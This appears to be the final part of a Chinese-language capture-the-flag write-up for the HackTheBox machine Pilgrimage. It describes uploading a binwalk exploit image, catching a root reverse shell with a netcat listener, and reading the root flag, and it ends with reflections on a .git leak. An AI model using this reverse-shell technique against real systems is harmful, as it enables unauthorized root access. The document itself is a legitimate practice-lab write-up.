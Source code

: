 ### 上传exp、触发反弹shell

将我们之前用exp脚本生成的图片payload（binwalk_exploit.png）传到靶机（由于玩家较多所以稍微改了一下图片名），开启监听，然后 `cp` 将文件**复制**到 `/var/www/pilgrimage.htb/shrunk/`，即可获得root权限的反弹shell。

```bash
└─$ nc -lvnp 4444           
listening on [any] 4444 ...
connect to [10.xx.xx.xx] from (UNKNOWN) [10.10.11.219] 51448

id
uid=0(root) gid=0(root) groups=0(root)
```


## flag: root

一开始并不在/root目录下，应该跟这个漏洞的原理有关。移动到/root目录后即可获取root flag。

```bash
ls 
_649d565edf744.png.extracted
_649d569d6aa82.png.extracted
_649d56b47cc76.png.extracted
_649d56e1eae10.png.extracted
_649d56f9a553f.png.extracted
_binxp1.png.extracted
pwd
/root/quarantine
cd 
ls
quarantine
reset.sh
root.txt
cat root.txt
221b……4a2d
```


---

## 总结·后记

2023/06/26

这次的突破口是.git泄露啊，还是第一次听说。所以网站根目录下不能放.git文件夹。  
以及后来看了一下各个目录暴破的字典，都没有看.git下的文件的。看来以后也需要将其作为一个攻击向量，在最开始就一并尝试。于是又更新了我的[WP模板](./../active/writeup-template.md)。  

然后就是几次图片payload的利用。本来以为会是图片webshell，竟然是以其他方式，有意思。不过具体原理也依旧没详细看，挖坑等之后有空补补了……
